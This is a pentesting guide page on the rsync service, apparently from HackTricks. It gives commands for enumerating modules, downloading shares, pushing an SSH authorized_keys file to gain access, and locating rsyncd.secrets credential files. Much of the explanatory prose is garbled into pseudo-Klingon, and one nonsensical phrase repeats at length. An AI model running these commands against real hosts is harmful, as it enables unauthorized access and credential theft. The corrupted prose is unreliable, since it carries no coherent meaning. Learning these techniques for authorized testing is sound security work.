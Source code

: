 # 873 - Pentesting Rsync

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## **Basic Information**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync** is a utility for efficiently [transferring](https://en.wikipedia.org/wiki/File\_transfer) and [synchronizing](https://en.wikipedia.org/wiki/File\_synchronization) [files](https://en.wikipedia.org/wiki/Computer\_file) between a computer and an external hard drive and across [networked](https://en.wikipedia.org/wiki/Computer\_network) [computers](https://en.wikipedia.org/wiki/Computer) by comparing the [modification times](https://en.wikipedia.org/wiki/Timestamping\_\(computing\))and sizes of files.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) It is commonly found on [Unix-like](https://en.wikipedia.org/wiki/Unix-like) [operating systems](https://en.wikipedia.org/wiki/Operating\_system). The rsync algorithm is a type of [delta encoding](https://en.wikipedia.org/wiki/Delta\_encoding), and is used for minimizing network usage. [Zlib](https://en.wikipedia.org/wiki/Zlib) may be used for additional [data compression](https://en.wikipedia.org/wiki/Data\_compression),[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite\_note-man\_page-3) and [SSH](https://en.wikipedia.org/wiki/Secure\_Shell) or [stunnel](https://en.wikipedia.org/wiki/Stunnel) can be used for security.

**Default port:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
### Enumeration

### Banner & Manual communication

#### tlhIngan Hol translation:

### cha'logh & Qapla' communication

#### tlhIngan Hol translation:
```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **Enumerating Shared Folders**

**Rsync modules** are recognized as **directory shares** that might be **protected with passwords**. To identify available modules and check if they require passwords, the following commands are used:

### **Qa'Hom QaD**

**Rsync modules** **DIvI'** **DIvI'** **'ej** **lo'laHbe'** **'e'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands** **vaj** **DIvI'** **'ej** **passwords** **ghaH** **'e'** **ghItlh** **'e'** **commands
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
**ghItlhvam** that some shares might not appear in the list, **ghItlhvam** hiding them. Additionally, accessing some shares might be restricted to specific **credentials**, indicated by an **"Access Denied"** message.

### [**Brute Force**](../generic-methodologies-and-resources/brute-force.md#rsync)

### Manual Rsync Usage

**ghItlhvam** obtaining a **module list**, actions depend on whether authentication is needed. Without authentication, **listing** and **copying** files from a shared folder to a local directory is achieved through:
```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
**tlhIngan Hol:**

**QaStaHvIS**, **tlhIngan Hol** vItlhutlhlaHchugh, **tlhIngan Hol** vItlhutlhlaHchugh, **tlhIngan Hol** vItlhutlhlaHchugh.

**QaStaHvIS**, **credentials** vItlhutlhlaHchugh, **shared folder** vItlhutlhlaHchugh, **listing** 'ej **downloading** vItlhutlhlaHchugh, **password prompt** vItlhutlhlaHchugh, **yInID**.
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
**upload content**-lI'wI' jatlhqa'pu'chugh, _**authorized_keys**_ file laH access, lo'laHbe'chugh:
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

To locate the rsyncd configuration file, execute:

```
tlhIngan Hol:
rsyncd qImHa' Daq yIlo':
```

```html
<p>
<b>tlhIngan Hol:</b>
rsyncd qImHa' Daq yIlo':
</p>
```
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
DajatlhlaHbe'chugh, _secrets file_ parameter vItlhutlh **usernames and passwords** laH rsyncd authentication.

## References
* [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

